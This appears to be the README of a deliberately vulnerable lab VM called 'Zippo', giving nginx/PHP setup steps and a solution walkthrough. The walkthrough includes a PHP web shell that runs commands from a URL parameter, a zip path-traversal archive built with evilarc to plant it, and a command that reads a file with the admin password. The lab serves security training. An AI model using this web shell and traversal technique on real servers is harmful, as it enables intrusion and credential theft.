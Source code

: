 
# Zippo 

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 2 GB disk

# Agenda

In your research, you discovered a strange server that, at first glance, only has one page. However, later it turned out that the system administrator uses this server to develop his virtual terminal, which allows him to execute some Linux commands, such as ls, find, wget and others. Well, this is a great chance to try to access the server and look for what else is so interesting there. Maybe we can even find his password?

# Setup

*Requirements:*  **2 GB** of disk space for VM.

Put all files in folder /var/www/html/

```
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install -y nginx php-fpm unzip wget curl maven git whois nginx python python2.7 php-fpm composer
sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*

```

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):

```
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        root /var/www/html;
        index index.php;
        server_name _;
        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
				# php-fpm version may be different
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```

Reload nginx

```
sudo  systemctl restart nginx
 ```


## How to check that everything works ?

1. Open main page, you should see stylish 403 page.
2. Navigate **/admin/zip.php**, upload **test.zip** file.  You should see something like:
    ```
    File uploaded
    File: phpinfo.php
    Writing to :/var/www/html/admin/upload/../../wp-content/phpinfo.php
    ```
3. Go to **/wp-content/phpinfo.php**, you shoul see php info page.     

## Solution

1. With dirbuster/dirb/dirsearch find **admin**, **wp-content** and **wp-include** folders 
2. In docs you can find , that there are additional pages may exist.
3. You can bruteforce 2-5 letters of specific page (**/admin/\*\*\*\*\*.php**), user wordlist or gather list of ordinary tools that can be found in /bin directory.
4. You will find **admin/zip.php** file.
5. **upload** folder is not executable, but you can write in **wp-content** folder that is executable.
6. Create **test.php** with next code: 
    ```php
    <?php
    echo "Works!";
    echo shell_exec($_GET['cmd']);
    ?>
    ```
5. User evilarc (https://github.com/ptoomey3/evilarc) to generate zip archieve with path traversal. Put **test.php** in evilarc folder and run next command ```python2.7 evilarc.py -o unix -d 2 -p wp-content test.php```. 
6. You will recieve zip file **evil.zip** with **..\..\wp-content\test.php**
7. Upload it with **/admin/zip.php** and navigate **/wp-content/test.php**. You shoul see "Works!".
8. Use */wp-content/test.php?cmd=**cat /var/www/html/shell.php*** to view shell.php file with admin password.

